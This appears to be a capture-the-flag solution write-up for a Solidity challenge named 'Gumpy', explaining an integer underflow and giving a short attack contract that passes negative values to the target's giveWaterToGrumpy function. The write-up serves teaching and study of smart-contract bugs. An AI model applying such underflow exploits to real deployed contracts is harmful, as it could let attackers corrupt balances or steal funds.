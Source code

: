 # Gumpy

## Solution

To validate this challenge, it's necessary to give a quantity of water to "Gumpy" equal to the limit that it can receive, however this limit can't be reached with an addition of positive unit.
So to validate this challenge, you have to give a certain number of negative unit in order to create an underflow to be able to reach the value of the maximum quantity of water that can be given to "Gumpy".

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/hardChalls/Grumpy.sol";

contract GrumpyAttack {

    Grumpy originalContract;

    constructor(address payable _originalContract) public {
        originalContract = Grumpy(_originalContract);
    }

    function exploit() public {
        originalContract.giveWaterToGrumpy(-128);
        originalContract.giveWaterToGrumpy(-28);
    }

}
```